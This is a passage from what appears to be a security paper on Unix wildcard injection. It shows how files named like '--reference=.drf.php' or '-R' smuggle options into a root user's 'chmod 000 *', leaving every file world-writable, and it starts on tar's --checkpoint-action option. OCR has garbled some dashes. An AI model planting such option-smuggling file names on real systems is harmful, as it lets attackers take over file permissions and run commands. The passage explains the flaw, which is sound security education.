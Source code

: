 ```shell
-rw-rw-r———.  1 user user   111 Oct 28 17:38 index.php
-rw-r———r———.  1 leon leon     0 Oct 29 00:41 --reference=.drf.php
-rw-rw-r———.  1 user user    94 Oct 28 17:38 script.php
```

Superuser will now try to set mode 000 on all files.

```
[root@defensecode public]# chmod 000 *
```

Let’s check permissions on files…

```
[root@defensecode public]# ls -al
total 68
drwxrwxrwx.  2 user user  4096 Oct 29 00:41 .
drwx———. 24 user user  4096 Oct 28 18:32 ..
-rwxrwxrwx.  1 user user 20480 Oct 28 19:13 admin.php
-rwxrwxrwx.  1 user user    34 Oct 28 17:47 ado.php
-rwxrwxrwx.  1 user user   187 Oct 28 17:44 db.php
-rwxrwxrwx.  1 user user   201 Oct 28 17:43 download.php
-rwxrwxrwx.  1 leon leon     0 Oct 29 00:40 .drf.php
-rwxrwxrwx.  1 user user    43 Oct 28 17:35 file1.php
-rwxrwxrwx.  1 user user    56 Oct 28 17:47 footer.php
-rwxrwxrwx.  1 user user   357 Oct 28 17:36 global.php
-rwxrwxrwx.  1 user user   225 Oct 28 17:37 header.php
-rwxrwxrwx.  1 user user   117 Oct 28 17:36 inc.php
-rwxrwxrwx.  1 user user   111 Oct 28 17:38 index.php
-rw-r———r———.  1 leon leon     0 Oct 29 00:41 --reference=.drf.php
-rwxrwxrwx.  1 user user    94 Oct 28 17:38 script.php
```

What happened? Instead of 000, all files are now set to mode 777 because\ of the ‘———reference’ option supplied through file name..
Once again, file .drf.php owned by user ‘leon’ with mode 777 was  used as reference file and since ———reference option is supplied, all files
will be set to mode 777. Beside just ———reference option, attacker can also create another file with  `’-R’` filename, to change file permissions on files in all subdirectories recursively.

## Tar arbitrary command execution 

Previous example is nice example of file ownership hijacking. Now, let’s go to even more interesting stuff like arbitrary command execution. Tar is very common unix program  for creating and extracting archives. Common usage for lets say creating archives is:

```
[root@defensecode public]# tar cvvf archive.tar *
```

So, what’s the problem with ‘tar’?  Thing is that tar has many options, and among them, there some pretty interesting
options from arbitrary parameter injection point of view.

Let’s check tar manual page (man tar):
```
      --checkpoint[=NUMBER]
              display progress messages every NUMBERth record (default 10)

       --checkpoint-action=ACTION
              execute ACTION on each checkpoint
```
